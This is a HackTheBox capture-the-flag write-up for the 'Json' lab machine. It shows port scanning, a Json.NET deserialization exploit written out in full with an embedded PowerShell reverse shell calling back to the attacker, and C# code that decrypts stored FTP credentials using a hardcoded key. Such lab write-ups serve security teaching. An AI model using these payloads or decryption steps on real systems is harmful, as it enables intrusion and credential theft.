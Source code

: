 ```yaml
---
title: "Json - HackTheBox"
date: 2020-02-15T19:00:00+01:00
tags: []
---
```


As usual, let's start with a port scan:
```
$ nmap -A -T4 10.10.10.158
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-16 10:11 EST
Nmap scan report for 10.10.10.158
Host is up (0.060s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          FileZilla ftpd
| ftp-syst:
|_  SYST: UNIX emulated by FileZilla
80/tcp    open  http         Microsoft IIS httpd 8.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Json HTB
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 4h00m50s, deviation: 0s, median: 4h00m49s
|_nbstat: NetBIOS name: JSON, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:7a:c3 (VMware)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-02-16T19:13:29
|_  start_date: 2020-02-16T04:04:18
```

The server is composed of a login page:
![](/images/hackthebox/json/login.png)

And trying common credentials we find out that `admin:admin` works, but a non
functional web app is behind the login, so there's nothing to do there. An
interesting thing is that a cookie named `OAuth2` gets set, and decoding it's
base64 value we get:

```
{
  "Id": 1,
  "UserName": "admin",
  "Password": "21232f297a57a5a743894a0e4a801fc3",
  "Name": "User Admin HTB",
  "Rol": "Administrator"
}
```

By intercepting the request with Burp we can see that the same value will be
sent in the Bearer HTTP header:
![](/images/hackthebox/json/bearer.png)

Modifying it to a random value will trigger an error:
![](/images/hackthebox/json/error.png)

Using a base64 valid value we get another error:
![](/images/hackthebox/json/json-error.png)

This time we get more information about the backend, it seems like it uses
Json.NET to deserialize the data.

We can use [ysoserial](https://github.com/pwntester/ysoserial.net) to generate
custom payloads to exploit this vulnerability, you can read more about it
[here](https://speakerdeck.com/pwntester/attacking-net-serialization).

As the command that I want to execute contains a lot of characters that needs to
be escaped, I crafted the payload manually by modifing the one found on the
Github page, here is it:

```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['powershell','-nop -c "$client = New-Object System.Net.Sockets.TCPClient(\'10.10.14.81\',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \'PS \' + (pwd).Path + \'> \';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

It's just a basic reverse shell for Powershell. Save it in a file and after
running a netcat listener, make the request with `curl
http://10.10.10.158/api/Account -H "Bearer: $(base64 -w 0 <filename>)"`.

```
$ rlwrap nc -lnvp 1337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.158
Ncat: Connection from 10.10.10.158:50439.
PS C:\windows\system32\inetsrv> whoami
json\userpool
```

And we have a shell as `userpool`. Let's check if we can read the flag:
```
PS C:\windows\system32\inetsrv> Get-Acl C:\Users\userpool\Desktop\user.txt


    Directory: C:\Users\userpool\Desktop


Path                       Owner                      Access
----                       -----                      ------
user.txt                   JSON\userpool              NT AUTHORITY\SYSTEM Al...
```

## Privilege escalation

While inspecting the files on the drive, I found a curious one in `C:\Program
Files\Sync2Ftp\SyncLocation.exe.config`:
```
<?xml version="1.0" encoding="utf-8" ?>
<configuration>
  <appSettings>
    <add key="destinationFolder" value="ftp://localhost/"/>
    <add key="sourcefolder" value="C:\inetpub\wwwroot\jsonapp\Files"/>
    <add key="user" value="4as8gqENn26uTs9srvQLyg=="/>
    <add key="minute" value="30"/>
    <add key="password" value="oQ5iORgUrswNRsJKH9VaCw=="></add>
    <add key="SecurityKey" value="_5TL#+GWWFv6pfT3!GXw7D86pkRRTv+$$tk^cL5hdU%"/>
  </appSettings>
  <startup>
    <supportedRuntime version="v4.0" sku=".NETFramework,Version=v4.7.2" />
  </startup>


</configuration>
```

It looks like we have some encrypted credentials. We can use
[dnSpy](https://github.com/0xd4d/dnSpy) to reverse the `SyncLocation.exe` file
and understand more about how it decrypts the credentials:
![](/images/hackthebox/json/dnspy.png)

Cool, easy and simple! Let's copy the code and modify it a bit:
```csharp
using System;
using System.Text;
using System.Security.Cryptography;
using System.Configuration;

public class Program {
    public static string Decrypt(string cipherString, bool useHashing)
    {
        byte[] array = Convert.FromBase64String(cipherString);
        AppSettingsReader appSettingsReader = new AppSettingsReader();
        string s = "_5TL#+GWWFv6pfT3!GXw7D86pkRRTv+$$tk^cL5hdU%";
        byte[] key;
        if (useHashing)
        {
            MD5CryptoServiceProvider md5CryptoServiceProvider = new MD5CryptoServiceProvider();
            key = md5CryptoServiceProvider.ComputeHash(Encoding.UTF8.GetBytes(s));
            md5CryptoServiceProvider.Clear();
        }
        else
        {
            key = Encoding.UTF8.GetBytes(s);
        }
        TripleDESCryptoServiceProvider tripleDESCryptoServiceProvider = new TripleDESCryptoServiceProvider();
        tripleDESCryptoServiceProvider.Key = key;
        tripleDESCryptoServiceProvider.Mode = CipherMode.ECB;
        tripleDESCryptoServiceProvider.Padding = PaddingMode.PKCS7;
        ICryptoTransform cryptoTransform = tripleDESCryptoServiceProvider.CreateDecryptor();
        byte[] bytes = cryptoTransform.TransformFinalBlock(array, 0, array.Length);
        tripleDESCryptoServiceProvider.Clear();
        return Encoding.UTF8.GetString(bytes);
    }

    public static void Main()
    {
        Console.WriteLine(Decrypt("4as8gqENn26uTs9srvQLyg==", true));
        Console.WriteLine(Decrypt("oQ5iORgUrswNRsJKH9VaCw==", true));
    }
}
```

We can use an online compile like [dotnetfiddle](https://dotnetfiddle.net/) and
after running it we get the credentials:
```
superadmin
funnyhtb
```

Using them to login into the FTP server allows us to read the flag:
![](/images/hackthebox/json/root.png)

Thanks for reading!
